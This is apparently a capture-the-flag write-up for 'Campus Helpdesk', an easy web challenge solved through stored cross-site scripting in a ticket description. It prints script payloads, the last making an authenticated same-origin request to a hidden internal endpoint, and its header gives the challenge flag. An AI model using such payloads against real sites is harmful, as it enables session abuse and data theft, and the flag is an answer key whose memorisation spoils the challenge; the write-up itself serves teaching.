

repository: cyscomvit/writeups · page: writeups/CyberConverge_2026/04-campus-helpdesk-writeup.html · generator: jekyll

---
layout: writeup

title: Campus Helpdesk
difficulty: Easy
points: 20
categories: [Web]
tags: []

flag: CYS{campus_helpdesk_7f29c1a8}
---

### Campus Helpdesk

* Author: Dibyadipan (0DayMonxrch)

This is a web-based CTF challenge involving **Stored Cross-Site Scripting (XSS)**.

First, submit a normal ticket and test whether HTML is interpreted in the ticket description:

```html
<b>test</b>
```

The text is rendered as HTML, indicating that the description is not safely escaped.

Next, confirm JavaScript execution:

```html
<script>alert(location.origin)</script>
```

The alert shows the challenge origin, confirming that JavaScript executes in the context of the helpdesk application.

Inspecting the ticket HTML reveals a hidden internal endpoint:

```text
data-review-endpoint="/api/internal/note"
```

The endpoint relies on the browser's existing `review_session` cookie. Although the cookie is `HttpOnly` and cannot be read using `document.cookie`, the browser automatically includes it in same-origin requests.

We can therefore use the stored XSS to make an authenticated request:

```html
<script>
fetch('/api/internal/note', {method: 'POST'})
    .then(r => r.text())
    .then(flag => document.body.innerText = flag);
</script>
```

Opening the ticket again executes the payload, makes the authenticated request, and displays the flag.
